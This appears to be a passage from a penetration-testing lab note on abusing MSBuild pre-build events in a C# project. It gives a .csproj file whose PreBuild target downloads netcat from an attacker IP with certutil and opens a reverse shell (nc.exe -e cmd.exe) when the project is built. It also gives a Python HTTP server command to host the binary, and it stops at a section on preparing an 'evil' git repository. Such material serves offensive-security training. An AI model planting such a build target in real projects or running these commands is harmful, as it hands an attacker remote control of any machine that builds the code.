 MSBuild's PreBuildEvent can be manipulated to execute custom commands before the actual build process starts. This is done by defining a custom target (PreBuild) that runs before the PreBuildEvent.\
Create a simple C# console project in Visual Studio and then modify the Pre-build event as follow:

<figure><img src="../../.gitbook/assets/image (256).png" alt=""><figcaption></figcaption></figure>

```xml
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

  <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="certutil.exe -urlcache -f http://10.10.15.101:8000/nc.exe nc.exe&#xD;&#xA;.\nc.exe -e cmd.exe 10.10.15.101 9999" />
  </Target>

</Project>
```

### Prepare exploit tools

Run a python server inside `/usr/share/windows-resources/binaries` in order to deliver netcat to windows machine:

```bash
python3 -m http.server
```

### Prepare the Evil git repository
